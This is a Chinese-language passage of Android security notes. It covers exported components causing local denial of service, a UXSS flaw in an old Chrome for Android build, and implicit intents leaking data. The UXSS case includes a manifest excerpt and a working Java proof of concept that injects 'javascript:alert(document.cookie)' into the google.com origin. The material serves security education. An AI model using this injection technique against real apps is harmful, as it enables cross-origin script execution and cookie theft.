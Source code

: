 ### 案例2：本地拒绝服务
可以被外部app 调用 export 出来的接口，导致 crash  

### 案例3：UXSS
漏洞存在于Chrome Android版本v18.0.1025123，class "com.google.android.apps.chrome.SimpleChromeActivity" 允许恶意应用注入js代码到任意域. 部分 AndroidManifest.xml 配置文件如下  
``` xml
<activity android:name="com.google.android.apps.chrome.SimpleChromeActivity" android:launchMode="singleTask"
 android:configChanges="keyboard|keyboardHidden|orientation|screenSize">
    <intent-filter>
        <action android:name="android.intent.action.VIEW" />
        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
</activity>
```
Class "com.google.android.apps.chrome.SimpleChromeActivity" 配置 但是未设置 "android:exported" 为 "false". 恶意应用先调用该类并设置data为"http://google.com"  
再次调用时设置data 为恶意js 例如'javascript:alert(document.cookie)', 恶意代码将在http://google.com 域中执行.  

"com.google.android.apps.chrome.SimpleChromeActivity" class 可以通过Android api或者am（activityManager）打开. POC如下  
``` java
public class TestActivity extends Activity {
@Override
	public void onCreate(Bundle savedInstanceState) {
	    super.onCreate(savedInstanceState);
	    Intent i = new Intent();
	            ComponentName comp = new ComponentName(
	                             "com.android.chrome",
	                                "com.google.android.apps.chrome.SimpleChromeActivity");
	            i.setComponent(comp);
	            i.setAction("android.intent.action.VIEW");
	            Uri data = Uri.parse("http://google.com");
	            i.setData(data);
	
	            startActivity(i);
	
	                try {
	                    Thread.sleep(5000);
	                    }
	                      catch (Exception e) {}
	
	            data = Uri.parse("javascript:alert(document.cookie)");  
	            i.setData(data);
	
	            startActivity(i);
	}
}
```
### 案例4：隐式启动intent 包含敏感数据
暂缺可公开案例,攻击模型如下图。  